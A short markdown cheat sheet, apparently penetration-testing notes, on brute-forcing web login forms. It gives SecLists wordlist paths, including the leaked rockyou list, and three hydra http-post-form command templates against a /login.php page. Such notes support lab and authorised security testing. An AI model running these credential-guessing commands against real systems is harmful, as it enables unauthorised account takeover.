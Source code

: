 ```yaml
---
id: login-brute-force
title: Login brute force
---
```


# Login brute force

## Lists in Kali

### Usernames and passwords

```
/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt
```

### Usernames

```
/opt/useful/SecLists/Usernames/Names/names.txt
```

### Passswords

```
/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

## hydra

### Using a user and password list

```sh
hydra -C <list> -s <port> -f <host> http-post-form "/login.php:username=^USER^&password=^PASS^:Login"
```

### Using user admin and password list

```sh
hydra -l admin -P <passwords> -s <port> -f <host> http-post-form "/login.php:username=^USER^&password=^PASS^:F=Login"
```

### Using different lists for username and password

```sh
hydra -L <usernames> -P <passwords> -s <port> -f <host> http-post-form "/login.php:username=^USER^&password=^PASS^:F=Login"
```
